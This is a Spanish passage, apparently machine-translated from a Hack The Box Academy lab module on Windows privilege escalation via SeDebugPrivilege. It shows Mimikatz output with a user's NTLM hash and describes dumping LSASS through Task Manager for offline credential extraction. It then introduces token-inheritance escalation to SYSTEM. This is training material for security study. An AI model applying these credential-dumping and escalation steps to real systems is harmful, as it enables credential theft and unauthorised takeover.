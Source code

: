 ```cmd-session
Authentication Id : 0 ; 23026942 (00000000:015f5cfe)
Session           : RemoteInteractive from 2
User Name         : jordan
Domain            : WINLPE-SRV01
Logon Server      : WINLPE-SRV01
Logon Time        : 3/31/2021 2:59:52 PM
SID               : S-1-5-21-3769161915-3336846931-3985975925-1000
        msv :
         [00000003] Primary
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
        tspkg :
        wdigest :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        kerberos :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        ssp :
        credman :

<SNIP>

```

Supongamos que no podemos cargar herramientas en el objetivo por cualquier razón, pero tenemos acceso RDP. En ese caso, podemos tomar un volcado de memoria manual del`LSASS`procesar a través del administrador de tareas navegando a la`Details`pestaña, eligiendo el`LSASS`procesar y seleccionar`Create dump file`. Después de descargar este archivo a nuestro sistema de ataque, podemos procesarlo usando Mimikatz de la misma manera que el ejemplo anterior.

![Windows Task Manager showing lsass.exe process selected. Context menu open with 'Create dump file' option highlighted.](https://academy.hackthebox.com/storage/modules/67/WPE_taskmgr_lsass.png)

---

## Ejecución de código remoto como sistema

También podemos aprovechar`SeDebugPrivilege`para[RCE](https://decoder.cloud/2018/02/02/getting-system/). Usando esta técnica, podemos elevar nuestros privilegios al sistema iniciando un[proceso infantil](https://docs.microsoft.com/en-us/windows/win32/procthread/child-processes)y utilizando los derechos elevados otorgados a nuestra cuenta a través de`SeDebugPrivilege`alterar el comportamiento normal del sistema para heredar la token de un[proceso principal](https://docs.microsoft.com/en-us/windows/win32/procthread/processes-and-threads)y hacerle pasar por él. Si nos dirigimos a un proceso principal que se ejecuta como sistema (especificando la identificación del proceso (o PID) del proceso de destino o el programa de ejecución), entonces podemos elevar nuestros derechos rápidamente. Veamos esto en acción.

